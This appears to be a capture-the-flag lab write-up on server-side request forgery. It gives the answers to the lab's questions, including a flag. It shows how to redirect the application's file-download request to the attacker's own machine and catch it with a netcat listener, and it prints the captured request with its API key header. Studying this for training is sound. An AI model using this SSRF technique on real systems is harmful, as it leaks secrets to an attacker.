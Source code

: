 Explore the website. What is the only host allowed to access the admin area?

```
localhost
```

<br>

Check the "Download Resume" button. Where does the server parameter point to?

```
secure-file-storage.com
```

![alt text](image-31.png#center)

<br>

Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?

```
THM{Hello_Im_just_an_API_key}
```

replace `secure-file-storage.com` part with your own AttackBox IP address and run `nc -lvp 8087` command.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvp 8087
listening on [any] 8087 ...
10.10.245.216: inverse host lookup failed: Unknown host
connect to [10.6.67.243] from (UNKNOWN) [10.10.245.216] 34718
GET /public-docs-k057230990384293/75482342.pdf HTTP/1.1
Host: 10.6.67.243:8087
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
X-API-KEY: THM{Hello_Im_just_an_API_key}
```

<br>
